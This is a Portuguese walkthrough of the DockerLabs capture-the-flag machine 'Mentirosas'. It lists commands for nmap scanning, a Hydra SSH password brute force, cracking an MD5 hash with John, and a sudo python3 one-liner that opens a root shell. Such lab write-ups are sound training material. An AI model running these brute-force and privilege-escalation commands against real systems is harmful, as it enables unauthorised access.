

MÁQUINA-MENTIROSAS
Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Para implantar o laboratório executamos da seguinte forma, para que também possamos ver que ele nos diz a direção que teremos, bem como o que fazer quando terminarmos.
COLETA DE INFORMAÇÕES
nmap 172.17.0.2 -A -sS -sV -sC -Pn -T5
portas abertas:
22/tcp open ssh OpenSSH 9.2p1 Debian
80/tcp open http Apache httpd 2.4.62
Continuamos investigando mais sobre as portas e agora investigamos sobre o serviço HTTP . O endereço IP foi inserido no navegador o que levou o site a mencionar uma pista para nós e descobrimos que pode ser um usuário chamado A.
vamos fazer um ataque de força bruta com hydra
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2:22

Ao realizar o ataque de força bruta, descobrimos a senha de um arquivo . Sabendo disso, nos conectamos via SSH ao usuário com o comando:
ssh a@172.17.2
Ao listar o conteúdo do diretório, não encontramos nenhum arquivo. É importante lembrar que os arquivos associados aos servidores são armazenados no formato /srv.
2 exemplos de baixar o arquivo para maquina da vitima.
exemplo 1°
scp a@172.17.0.2:/srv/ftp/hash_spencer.txt .
exemplo 2°
python3 -m http.server
entramos no arquivo hash_spencer.txt e copiamos a hash com o mesmo nome na maquina atacante.
vamos quebrar essa hash com JOHN
john --format=raw-md5 hash_spencer.txt
UMA OUTRA MANEIRA DE DESCOBRIR A SENHA DO USUÁRIO SPENCER, E USAR O HYDRA
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2:22
exploração sudo -l
Foi identificado que podemos executar /usr/bin/python3com permissões sudo. Para escalar privilégios, usaremos GTFObins , que fornece uma lista de comandos que podem ser executados usando Python.
Isso nos permitirá aproveitar as vantagens do ambiente Python para executar código que nos ajuda a obter acesso a níveis mais elevados de privilégio no sistema.
podemos ver que no comando abaixo acrecentei python3 e o /bin/bash
sudo python3 -c 'import os; os.system("/bin/bash")'
somos root
bobmarley